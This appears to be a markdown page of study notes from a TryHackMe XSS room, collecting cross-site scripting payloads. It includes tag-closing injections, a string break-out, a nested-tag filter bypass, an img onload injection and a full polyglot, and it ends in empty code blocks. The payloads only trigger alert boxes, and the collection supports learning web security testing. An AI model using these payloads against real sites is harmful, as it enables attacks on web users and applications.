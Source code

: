 # XSS Payload Bank
**Update:** Use `print()` instead of `alert()` on Chrome
## THM Payloads
```javascript
<script>alert('THM');</script> 
```

`// Checking for XSS Vulnerability`



```javascript
"><script>alert('THM');</script>
```
` // Closing a tag before injecting payload`
```javascript
</textarea><script>alert('THM');</script> 
```
`// Closing a tag before injecting payload`

---
```javascript
';alert('THM');//

```

**NOTE**

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

---

```javascript
<sscriptcript>alert('THM');</sscriptcript>
```
`Bypassing the filter`
```javascript
/images/cat.jpg" onload="alert('THM');
```
`Taking advantage of the onload="" attribute of the <img> tag`

### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
### A Repository of Polygots
[Ultimate XSS Polygot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)



```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```
